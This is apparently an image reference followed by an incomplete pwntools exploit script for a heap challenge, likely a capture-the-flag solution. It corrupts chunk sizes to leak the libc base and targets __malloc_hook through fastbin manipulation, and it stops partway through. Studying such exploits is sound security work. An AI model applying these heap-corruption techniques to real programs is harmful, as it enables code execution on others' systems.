 ```python=
def free(index):
    io.sendline("3")
    io.sendlineafter("Index:",str(index))

def dump(index):
    io.sendline("4")
    io.sendlineafter("Index:",str(index))
    io.readuntil(": \n")
    data = io.readline()
    io.readuntil(": ")
    return data

allocate(0x20)  
allocate(0x20)  
allocate(0x20)  
allocate(0x20)  
allocate(0x80) 
allocate(0x20) 

free(1)
free(2) 

payload1 = b""
payload1 += p64(0)*5
payload1 += p64(0x31)
payload1 += p64(0)*5
payload1 += p64(0x31)
payload1 += b"\xc0"
fill(0, payload1)

#set to fastbin size
payload2 = b""
payload2 += p64(0)*5
payload2 += p64(0x31)
fill(3,payload2)

allocate(32)  
allocate(32)    

#set back to unsorted size
payload2 = b""
payload2 += p64(0)*5
payload2 += p64(0x91)
fill(3,payload2)

free(4) 

leak = u64(dump(2)[:8])
libc_base = leak-0x39bb78
print("Leak:",hex(leak))
print("Libc Base:",hex(libc_base))
libc.address = libc_base
malloc_hook = libc.symbols['__malloc_hook']
print("__malloc_hook:",hex(malloc_hook))
malloc_hook_write = libc.symbols['__malloc_hook'] -0x23

allocate(0x60) 
allocate(0x60)  
allocate(0x60)  
allocate(0x60)    
free(7)
free(8)

```